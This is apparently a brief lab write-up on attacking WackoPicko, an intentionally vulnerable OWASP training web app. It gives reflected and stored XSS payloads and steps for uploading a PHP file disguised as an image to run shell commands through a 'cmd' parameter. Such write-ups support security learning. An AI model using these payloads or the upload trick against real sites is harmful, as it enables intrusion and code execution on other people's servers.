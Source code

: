 +++
title = "OWASP Broken Web Apps WackoPicko"
slug = "owasp-broken-web-apps-wackopicko"
[taxonomies]
categories=["vulnerable-web-app"]
tags=["web", "owasp"]
+++

Right off the bat, try hitting the search box with a simple XSS payload:

{% highlight javascript %}
search.php?query=<script>lt;script<script>gt;alert(1)<%2Fscript>&x=24&y=12
{% endhighlight %}

#/guestbook.php

Placing this:

{% highlight html %}
<script>confirm(1)</script>
<img src=x onerror='confirm(2)' />
{% endhighlight %}

into a comment body yields stored XSS

Next I made an account and started uploading stuff, turns out php files are uploadable and executable:

1. Make the file's name be: whatever.php
2. Make its extension: .jpg
3. Upload
4. Open the broken image on the page you're redirected to and open its URL in a new tab, remove the 550 from the URL
5. ?cmd=ls -latr



